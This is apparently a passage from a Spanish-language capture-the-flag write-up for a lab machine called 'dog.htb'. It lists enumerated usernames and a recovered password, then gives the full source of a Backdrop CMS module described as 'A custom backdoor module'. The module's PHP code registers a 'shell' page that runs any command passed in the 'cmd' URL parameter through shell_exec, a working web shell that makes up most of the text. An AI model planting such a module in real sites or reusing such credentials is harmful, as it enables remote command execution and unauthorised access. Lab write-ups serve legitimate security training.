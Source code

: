 Se encontro a todos los usuarios:
```bash
### 👤 **Usuarios enumerados:**

1. `tiffany`
    
2. `rosa`
    
3. `axel`
    
4. `morris`
    
5. `john`
    
6. `dogBackDropSystem`
    
7. `jobert`
    
8. `JPAdminB`

tiffany@dog.htb

Contraseña**: `BackDropJ2024DS2024`
````

![image](https://github.com/user-attachments/assets/4f41ecdd-2b91-4308-a81b-76bd7bb205cb)


Aplicación al caso del **módulo con shell**:

Si vamos a crear un **módulo (no un theme)** para ejecutar comandos, entonces el archivo `.info` debe seguir esta estructura **mínima y válida** para **un módulo**:
 `shellmod.info`
```bash
name = ShellMod
type = module
description = A custom backdoor module.
package = Custom
backdrop = 1.x
version = 1.0

````

`shellmod.module`
```bash
<?php

function shellmod_menu() {
  $items['shell'] = array(
    'page callback' => 'shellmod_exec',
    'access arguments' => array('access content'),
  );
  return $items;
}

function shellmod_exec() {
  if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
  } else {
    echo "Usage: ?q=shell&cmd=whoami";
  }
}

````
